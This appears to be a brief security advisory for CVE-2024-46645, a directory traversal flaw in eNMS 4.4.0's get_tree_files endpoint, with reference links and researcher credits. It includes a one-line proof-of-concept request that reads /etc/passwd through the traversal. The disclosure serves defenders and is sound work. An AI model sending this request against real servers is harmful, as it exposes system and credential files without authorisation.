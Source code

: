 # **CVE-2024-46645**



# Details
* **Vulnerability Type**: eNMS 4.4.0 Directory Traversal via get_tree_files
* **Affected Application**: eNMS
* **Affected Versions**: 4.4.0
* **Affected Component**: /get_tree_files/>[DIR]
* **Impact**: Unauthorized access to sensitive files, potential exposure of confidential information.

##  ```GET /get_tree_files/>[DIR]>[FILE]```

```
GET /get_tree_files/>etc/>passwd
```

# References
https://nvd.nist.gov/vuln/detail/CVE-2024-46645 <br>
https://cve.mitre.org/cgi-bin/cvename.cgi?name=2024-46645 <br>
# Credits
**Andrea Pessione** and **Manuel Scala** - SK IT Cyber Security<br></br>
<a href="https://sk-it.com/"><img src="img/skit_logo.png" width="300">
